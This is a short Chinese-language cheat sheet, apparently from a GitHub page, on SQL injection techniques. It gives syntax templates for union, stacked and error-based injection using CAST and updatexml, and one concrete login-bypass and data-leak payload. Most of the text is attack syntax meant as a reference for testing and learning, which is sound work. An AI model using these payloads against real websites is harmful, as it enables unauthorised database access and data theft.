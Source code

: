 ## 注入类型

### 联合注入

#### 语法结构

`<原语句> UNION SELECT <列名> FROM <表名>`

> **Notes**
>
> * "<原语句>"表示"SELECT <列名> FROM <表名> WHERE <条件>"，下同

> **Notes**
>
> * 联合查询的两个表的列数必须相同（通过order by来判断）

### 堆叠注入

#### 语法结构

`<原语句>; <SQL语句>`

### 报错注入

#### 可见报错

> **Notes**
>
> * 当SQL语句执行错误，页面出现报错详细内容时，可以通过报错信息来获取数据库信息

**语法结构**

`<原语句> AND CAST((<查询语句>) AS int)=1`

> **Notes**
>
> * CAST函数：将查询结果转换为int类型
> * 当CAST的返回值是文本时，会报错并抛出内容

```sql
AND CAST((SELECT xxx FROM xxx) AS int)=1--
```

**updatexml**

`updatexml(xml_doument,XPath_string,new_value)`

> **Notes**
>
> * 第一个参数：XML的内容
> * 第二个参数：是需要update的位置XPATH路径
> * 第三个参数：是更新后的内容
> * 所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式
> * 加上“\~”就可以让XPATH校验失败
> * 如：admin' or updatexml(1,concat(0x7e,database()),0)#
